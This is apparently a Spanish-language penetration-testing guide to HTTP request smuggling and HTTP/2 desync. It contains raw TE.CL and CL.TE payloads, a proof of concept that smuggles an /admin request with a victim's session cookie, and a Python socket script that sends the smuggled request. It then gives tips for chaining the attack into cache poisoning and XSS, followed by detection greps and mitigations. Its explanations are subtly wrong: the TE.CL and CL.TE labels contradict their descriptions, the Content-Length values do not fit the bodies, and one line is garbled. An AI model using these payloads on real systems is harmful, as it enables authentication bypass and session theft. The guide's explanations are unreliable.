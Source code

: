# HTTP Request Smuggling y HTTP/2 Desync

## Resumen

El *HTTP Request Smuggling (HRS)* y la *HTTP/2 Desynchronization (H2 Desync)* son técnicas avanzadas que explotan discrepancias en cómo diferentes componentes (cliente, proxy, servidor) interpretan los límites de las peticiones HTTP. Permiten insertar o modificar peticiones enviadas al servidor backend, esquivar controles de seguridad, cache poisoning, XSS, y obtener acceso a datos de otros usuarios en la misma conexión.

## Contexto

En arquitecturas con múltiples capas de proxy inverso, balanceadores de carga, CDNs y servidores de aplicación, cada componente puede usar parsers o versiones de protocolo distintas (HTTP/1.1 vs HTTP/2 o diferentes librerías). Esto genera discrepancias en la interpretación de cabeceras `Content-Length` y `Transfer-Encoding`, así como en la serialización de flujos HTTP/2, que el atacante puede aprovechar para inyectar peticiones "fantasmas".

## Fundamentos Técnicos

- **Content-Length (CL)**: indica longitud exacta del body en HTTP/1.1.
- **Transfer-Encoding: chunked (TE)**: envía payloads en bloques codificados.
- **HTTP/2 framing**: multiplexación de streams, conversión a HTTP/1.1 en frontales antiguas.
- **CL vs TE discrepancia**: si un proxy prioriza CL y el backend TE, o viceversa, la segunda petición de un conjunto puede interpretarse como inicio de nueva petición ("smuggled").

## Metodología de Ataque

### 1. HRS Básico (TE.CL)

Enviar request con ambas cabeceras para que el proxy y el backend interpreten longitudes distintas:

```http
POST /vulnerable HTTP/1.1
Host: victim.com
Content-Length: 13
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: victim.com

```

- El proxy usa CL=13 y consume solo el primer bloque, reenviando la línea **`GET /admin`** como nueva petición al backend.

### 2. TE.CL Reverse (CL.TE)

```http
POST /vuln HTTP/1.1
Host: victim.com
Content-Length: 5

0

GET /admin HTTP/1.1
Host: victim.com
Transfer-Encoding: chunked
```

- El proxy usa TE y envía todo al backend; el backend confía en CL y ve un exceso de datos como nueva petición.

### 3. HTTP/2 Desync

Aprovecha la conversión HTTP/2→HTTP/1.1 en frontales antiguas:

1. Enviar múltiples streams en HTTP/2 simulando limit de CL en HTTP/1.1.
2. El frontline arma un solo request HTTP/1.1 con cabeceras inconsistentes.
3. El backend interpreta exceso de datos como nueva petición.

#### Ejemplo H2 Desync

- Stream 1: headers `:method: POST`, `content-length: 20`
- DATA frames suman 20 bytes + additional DATA frame
- TOH backend ve 20 bytes en CL y reinterpreta extra DATA como nueva petición.

## Pruebas Manuales

1. **Detectar vulnerabilidad:** usar payloads de TE.CL y CL.TE con Burp Repeater en modo raw.
2. **Verificar smuggled request:** enviar `GET /admin` embebido y confirmar acceso a ruta administrativa sin sesión.
3. **Probar H2 Desync:** usar cliente HTTP/2 (e.g., h2c, nghttp) y construir custom frames con mismatched CL totales.
4. **Encadenar impactos:** tras smuggling, inyectar cabeceras `Host: attacker.com` para cache poisoning; inyectar payloads XSS en peticiones enmascaradas.

## PoC

```http
# TE.CL payload
POST /login HTTP/1.1
Host: victim.com
Content-Length: 47
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: victim.com
Cookie: session=victim_session
```

- Cliente: Burp Repeater
- 1ª petición: `/login`
- 2ª petición smuggled: `/admin`, accesible sin credenciales desde el backend.

## Automatización

### Smuggler (Burp Extension)

- Instalar **Smuggler** en Burp
- Configurar payload TE.CL y CL.TE
- Ejecutar detección automática de smuggling y resaltar endpoints vulnerables

### Python Script

```python
import socket

def send_smuggle(host, port):
    req = (
        "POST / HTTP/1.1\r\n"
        "Host: %s\r\n"
        "Content-Length: 11\r\n"
        "Transfer-Encoding: chunked\r\n\r\n"
        "0\r\n\r\n"
        "GET /admin HTTP/1.1\r\nHost: %s\r\n\r\n"
    ) % (host, host)
    s = socket.create_connection((host, port))
    s.send(req.encode())
    data = s.recv(4096)
    print(data.decode())
    s.close()

if __name__ == "__main__":
    send_smuggle("victim.com", 80)
```

### H2 Desync Tool

- Usar **h2c** o **nghttp** para enviar múltiples DATA frames más allá del CL declarado
- Monitorear backend logs para verificar peticiones smuggled.

## Explotación / Impacto

- **Bypass de autenticación**: acceso a rutas administrativas sin credenciales.
- **Cache poisoning**: insertar respuestas maliciosas en cache compartida.
- **XSS server-side**: inyectar payloads en respuestas de apps internas.
- **Request hijacking**: robar sesiones de otros usuarios enviados en smuggled requests.

## Detección y Monitoreo

```bash
# Detectar patrones de CL vs TE en logs
grep -E "Transfer-Encoding: chunked" access.log | grep "Content-Length"
# Alertas de peticiones inesperadas a rutas administrativas sin referer
grep "GET /admin" error.log | grep -v "Referer"
```

## Mitigación

1. **Deshabilitar TE/CL combinadas**
   - Proxy: rechazar requests que incluyan ambas cabeceras.
2. **Normalizar y validar longitudes**
   - Asegurar que el proxy y backend usan la misma lógica de parsing.
3. **Actualizar librerías y servidores**
   - Parches (CVE-2024-xxxx) en Varnish, Nginx, Apache.
4. **Habilitar HTTP/2-only**
   - En frontales que soporten H2 nativo, evitar conversión a HTTP/1.1.
5. **WAF Rules**
   - Bloquear TE+CL simultáneos.
   - Inspeccionar mismatches en framing.
6. **Pruebas continuas**
   - Incluir smuggling en pipelines de CI/CD con herramientas automáticas.

## Reporte

**Título:** HTTP Request Smuggling / HTTP/2 Desynchronization – Bypass de Controles y Acceso No Autorizado
**Resumen Ejecutivo:** Vulnerabilidad en el parsing de peticiones permite inyectar peticiones adicionales al backend, eludiendo autenticación, cache y controles de seguridad.
**Pasos de Reproducción:**

1. Enviar payload TE.CL con Burp Repeater.
2. Confirmar smuggled request a `/admin`.
3. Repetir con H2 Desync usando nghttp.
   **Mitigación Recomendada:** Deshabilitar TE+CL combinadas, parchear stacks, alinear parsing, y añadir reglas en WAF para bloquear requests malformados.

